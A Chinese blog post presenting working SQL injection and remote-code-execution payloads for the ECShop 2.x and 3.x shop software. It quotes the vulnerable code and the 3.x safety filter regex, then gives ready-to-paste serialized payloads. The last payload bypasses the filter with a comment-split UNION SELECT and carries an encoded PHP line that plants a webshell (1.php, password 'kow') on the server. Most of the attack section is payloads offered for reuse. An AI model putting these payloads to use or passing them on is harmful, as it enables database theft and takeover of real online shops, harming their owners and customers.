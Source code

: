 ```yaml
---
id: 5000
title: ecshop 2.x 3.x SQL injection/RCE payload
date: 2018-09-07T11:32:57+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=5000
permalink: /ecshop-payload/
categories:
  - web
tags:
  - ecshop
  - sql injection
  - rce
  - payload
---
```

首先，感谢ringk3y的分析：http://ringk3y.com/2018/08/31/ecshop2-x%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/ 大家跟一遍代码基本上都能弄明白漏洞的原理，整个漏洞的构造还是很有意思的

然后网上公开的基本上都是2.x版本的payload，对于sql injection，除了文中提到的insert_ads，insert_bought_notes函数同样存在漏洞：
```
    $sql = 'SELECT u.user_name, og.goods_number, oi.add_time, IF(oi.order_status IN (2, 3, 4), 0, 1) AS order_status ' .
           'FROM ' . $GLOBALS['ecs']->table('order_info') . ' AS oi LEFT JOIN ' . $GLOBALS['ecs']->table('users') . ' AS u ON oi.user_id = u.user_id, ' . $GLOBALS['ecs']->table('order_goods') . ' AS og ' .
           'WHERE oi.order_id = og.order_id AND ' . time() . ' - oi.add_time < 2592000 AND og.goods_id = ' . $arr['id'] . ' ORDER BY oi.add_time DESC LIMIT 5';
```
注入点为id，这样我们构造payload可以为
```
554fcae493e564ee0dc75bdf2ebf94cabought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
```

对于3.x版本的注入，唯一和2.x的区别在于$_echash的值变成了45ea207d7a2b68c49582d2d22adf953a，我们直接替换原来payload中的值即可：
```
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
```
或者
```
bought_notes|a:2:{s:3:"num";i:1;s:2:"id";s:70:"1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";}
```

对于3.x版本的rce或者是你想要读取数据库里面的信息，我们需要绕过3.x中的过滤（代码在safety.php中)，
先看下3.x中的过滤：
```
'sql'=>"[^\\{\\s]{1}(\\s|\\b)+(?:select\\b|update\\b|insert(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+into\\b).+?(?:from\\b|set\\b)|[^\\{\\s]{1}(\\s|\\b)+(?:create|delete|drop|truncate|rename|desc)(?:(\\/\\*.*?\\*\\/)|(\\s)|(\\+))+(?:table\\b|from\\b|database\\b)|into(?:(\\/\\*.*?\\*\\/)|\\s|\\+)+(?:dump|out)file\\b|\\bsleep\\([\\s]*[\\d]+[\\s]*\\)|benchmark\\(([^\\,]*)\\,([^\\,]*)\\)|(?:declare|set|select)\\b.*@|union\\b.*(?:select|all)\\b|(?:select|update|insert|create|delete|drop|grant|truncate|rename|exec|desc|from|table|database|set|where)\\b.*(charset|ascii|bin|char|uncompress|concat|concat_ws|conv|export_set|hex|instr|left|load_file|locate|mid|sub|substring|oct|reverse|right|unhex)\\(|(?:master\\.\\.sysdatabases|msysaccessobjects|msysqueries|sysmodules|mysql\\.db|sys\\.database_name|information_schema\\.|sysobjects|sp_makewebtask|xp_cmdshell|sp_oamethod|sp_addextendedproc|sp_oacreate|xp_regread|sys\\.dbms_export_extension)"
```
基本上想从数据库中通过select查询获取数据是不可能的（欢迎大家提供绕过的思路）
但是insert_ads的sql语句给我们绕过全局过滤带来了方便：
```
$sql  = 'SELECT a.ad_id, a.position_id, a.media_type, a.ad_link, a.ad_code, a.ad_name, p.ad_width, ' .
                    'p.ad_height, p.position_style, RAND() AS rnd ' .
                'FROM ' . $GLOBALS['ecs']->table('ad') . ' AS a '.
                'LEFT JOIN ' . $GLOBALS['ecs']->table('ad_position') . ' AS p ON a.position_id = p.position_id ' .
                "WHERE enabled = 1 AND start_time <= '" . $time . "' AND end_time >= '" . $time . "' ".
                    "AND a.position_id = '" . $arr['id'] . "' " .
                'ORDER BY rnd LIMIT ' . $arr['num'];
```
因为可以注入的地方有两处，分别是id和num，这时我们利用inline comment来同时构造payload，id的地方注入'union/\*，num的地方注入\*/select+....
关于如何使用comment来帮助我们的注入语句，可以参考：http://www.sqlinjection.net/comments/
然后拦截的正则规则中并没有单独拦截union，select，这样我们2.x的payload稍微改造下就又能使用了：
```
45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:273:"*/select 1,0x27756e696f6e2f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152626132393358536b2f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:8:"'union/*";}[/code]
```
执行完之后会在user.php同目录下生成1.php的菜刀马，密码是kow

